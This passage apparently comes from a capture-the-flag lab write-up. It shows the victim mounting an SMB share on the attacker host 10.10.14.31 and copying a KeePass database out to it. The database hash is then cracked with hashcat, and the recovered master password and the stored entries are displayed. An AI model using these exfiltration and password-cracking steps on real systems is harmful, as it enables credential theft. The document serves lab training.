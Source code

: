 
[*] Config file parsed
[*] Callback added for UUID 4B324FC8-1670-01D3-1278-5A47BF6EE188 V:3.0
[*] Callback added for UUID 6BFFD098-A112-3610-9833-46C3F87E345A V:1.0
[*] Config file parsed
[*] Config file parsed
[*] Config file parsed
```

Now to mount the share and transfer CEH.kdbx.

```
C:\Users\kohsuke\Documents>net use M: \\10.10.14.31\transfer
net use M: \\10.10.14.31\transfer
The command completed successfully.


C:\Users\kohsuke\Documents>copy CEH.kdbx M:
copy CEH.kdbx M:
        1 file(s) copied.
```

Next we can extract the KeePass password hash and crack it.


```
┌──(kali㉿kali)-[/tmp/transfer]
└─$ keepass2john CEH.kdbx
CEH:$keepass$*2*6000*0*1af405cc00f979ddb9bb387c4594fcea2fd01a6a0757c000e1873f3c71941d3d*3869fe357ff2d7db1555cc668d1d606b1dfaf02b9dba2621cbe9ecb63c7a4091*393c97beafd8a820db9142a6a94f03f6*b73766b61e656351c3aca0282f1617511031f0156089b6c5647de4671972fcff*cb409dbc0fa660fcffa4f1cc89f728b68254db431a21ec33298b612fe647db48
                                                                                                                                            
┌──(kali㉿kali)-[/tmp/transfer]
└─$ hashcat -a 0 '$keepass$*2*6000*0*1af405cc00f979ddb9bb387c4594fcea2fd01a6a0757c000e1873f3c71941d3d*3869fe357ff2d7db1555cc668d1d606b1dfaf02b9dba2621cbe9ecb63c7a4091*393c97beafd8a820db9142a6a94f03f6*b73766b61e656351c3aca0282f1617511031f0156089b6c5647de4671972fcff*cb409dbc0fa660fcffa4f1cc89f728b68254db431a21ec33298b612fe647db48' /usr/share/wordlists/rockyou.txt -m 13400
```

We get the password ```moonshine1```. We can now view the contents of CEH.kdbx.

```
kpcli:/> ls
=== Groups ===
CEH/
kpcli:/> cd CEH
kpcli:/CEH> ls
=== Groups ===
eMail/
General/
Homebanking/
Internet/
Network/
Windows/
=== Entries ===
0. Backup stuff                                                           
1. Bank of America                                   www.bankofamerica.com
2. DC Recovery PW                                                         
3. EC-Council                               www.eccouncil.org/programs/cer
4. It's a secret                                 localhost:8180/secret.jsp
5. Jenkins admin                                            localhost:8080
6. Keys to the kingdom                                                    
7. Walmart.com                                             www.walmart.com
kpcli:/CEH> 
```

```